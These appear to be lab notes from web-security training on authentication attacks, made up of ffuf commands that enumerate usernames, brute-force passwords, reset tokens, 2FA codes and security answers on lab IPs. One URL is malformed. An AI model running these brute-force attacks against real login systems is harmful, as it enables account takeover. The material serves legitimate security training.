 ____

#  Differing Error Messages

```bash
ffuf -w /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -u http://83.136.254.47:56265/index.php -X POST -d "username=FUZZ&password=invalid" -fr "Unknown user" -H "Content-Type: application/x-www-form-urlencoded"
```

# Brute-Forcing Passwords

- contains at least one upper-case character
- contains at least one lower-case character
- contains at least one digit
- minimum length of 10 characters

```bash
grep '[[:upper:]]' /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt | grep '[[:lower:]]' | grep '[[:digit:]]' | grep -E '.{10}' > custom_wordlist.txt
```

```bash
ffuf -w ./custom_wordlist.txt -u http://94.237.57.154:37595/index.php -X POST -H "Content-Type: a  
pplication/x-www-form-urlencoded" -d "username=admin&password=FUZZ" -fr "Invalid username or password."
```

# Brute-Forcing Password Reset Tokens

```bash
ffuf -w /usr/share/seclists/Fuzzing/6-digits-000000-999999.txt -u http://http://83.136.254.47:36180/reset_password.php?token=FUZZ -fr "The provided token is invalid"
```

# Brute-Forcing 2FA Codes

```bash
ffuf -w /usr/share/seclists/Fuzzing/4-digits-0000-9999.txt -u http://94.237.50.176:35539/2fa.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=39fap95ns90q60bq5r570nnskf" -d "otp=FUZZ" -fr "Invalid 2FA Code"
```

# Vulnerable Password Reset


```bash
ffuf -w ./city_wordlist.txt -u http://83.136.254.37:41526/security_question.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=avengbtka78s63jkgpf2i5g3il" -d "security_response=FUZZ" -fr "Incorrect response."
```